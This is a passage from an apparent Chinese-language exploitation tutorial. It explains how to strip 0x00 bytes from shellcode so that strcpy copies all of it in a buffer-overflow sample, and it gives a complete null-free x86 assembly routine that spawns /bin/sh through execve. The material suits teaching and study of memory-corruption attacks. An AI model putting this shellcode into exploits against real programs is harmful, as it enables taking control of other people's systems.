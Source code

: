 shellcode执行成功。

> 只要将这段机器码嵌入目标程序，并设法让其执行，就能够夺取系统的控制权

#### 对0x00的改进

上面的shellcode还无法对sample3进行攻击，因为里面出现了0x00。在sample3中，复制数据时使用了strcpy函数，这个函数会用0x00来判断字符串的结尾。因此，当shellcode中间出现0x00时，strcpy就无法完整地复制shellcode地数据。

在sample6中，在对字符串/sh\0进行push地地方出现了0x00。

```c
804840f:	68 2f 73 68 00   push $0x68732f
8048414:	68 2f 62 69 6e   push $0x6e69622f
```
解决该问题可以采用下面办法：
* 将/bin/sh改为/bin//sh以凑齐8个字节
* 在前面先push $0

> 尽管多一个斜杠，但该命令运行不会有问题。因此，将`/sh\0`改为`//sh`，这样就成功消除了push里的`0x00`

用xor和push相互结合的方法，向栈中放入一个0x00作为字符串结尾的标志，这样就能避免整段代码出现`0x00`


```c
.globl main
main:
    xorl  %eax, %eax
    pushl %eax
    movl  %esp, %eax
    subl  $0x10, %eax
    pushl %eax  
    movl  %esp, %ebx 
    xorl  %eax, %eax  
    pushl %eax        ;push 0x00000000
    pushl $0x68732f2f ;push字符串"//sh"
    pushl $0x6e69622f ;push字符串"/bin"
    movl  %esp, %edx
    xorl  %eax, %eax
    pushl %eax
    pushl %ebx
    pushl %edx
    pushl %eax
    movb  $0x3b, %al
    int   $0x80
```
![Alt text](/img/interestingBin/1489144383415.png)
